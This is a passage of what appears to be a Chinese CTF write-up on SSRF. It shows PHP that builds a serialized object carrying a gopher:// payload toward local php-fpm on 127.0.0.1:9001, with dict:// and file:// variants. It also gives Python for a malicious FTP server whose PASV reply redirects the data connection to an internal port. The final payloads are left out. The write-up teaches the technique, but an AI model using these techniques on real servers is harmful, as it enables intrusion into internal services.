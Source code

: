 用p牛脚本生成payload，直接ssrf伪协议好像也行？没环境，云一下了

```php
$a = new Crawl();
$a -> url = "gopher://127.0.0.1:9001/_xxxxxxxx";
// $a -> url = "dict://127.0.0.1:80/info";
// $a -> url = "file:///proc/net/arp";
echo urlencode(serialize($a));
```

将序列化之后的结果传入crawldata

### 结合ftp&PASV mode攻击本地php-fpm

#### ftp使用PASV模式转发ftp-data

先简单测试ftp连接进行抓包

![image-20211112195819783](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112195819783.png)

其中的`227 Entering Passive Mode (192,168,187,3,230,20)`的括号内的内容表示的是传输的FTP-DATA打向的位置，前一部分是ip，端口是230*256+20=58900

![image-20211112200459682](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112200459682.png)

可以看到我们文件内容是150ok之后才被传出去的，而且会被放在FTP-DATA中被上传和下载

我们可以模拟一个ftp-server，在响应PASV命令（即passive 切换被动模式）时返回`(127,0,0,1,0,12345)`来让FTP-DATA打向内网12345端口；这是一个恶意ftp-server

```python
# 192.168.187.1
import socket
print("[+] listening ...........")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 (vsFTPd 3.0.3)\r\n')
conn.recv(0xff)
conn.send(b'331 Please specify the password.\r\n')
conn.recv(0xff)
conn.send(b'230 Login successful.\r\n')
conn.recv(0xff)
conn.send(b"215 UNIX Type: L8\r\n")
conn.recv(0xff)
conn.send(b'200 Switching to Binary mode.\r\n')
conn.recv(0xff)
conn.send(b'227 Entering Passive Mode (127,0,0,1,0,12345).\r\n')
conn.recv(0xff)
conn.send(b'150 Ok to send data.\r\n')
# sending payload .....
conn.send(b'226 Transfer complete.\r\n')
conn.recv(0xff)
conn.send(b'221 Goodbye.\r\n')
conn.close()
print("[+] completed ~~")
```
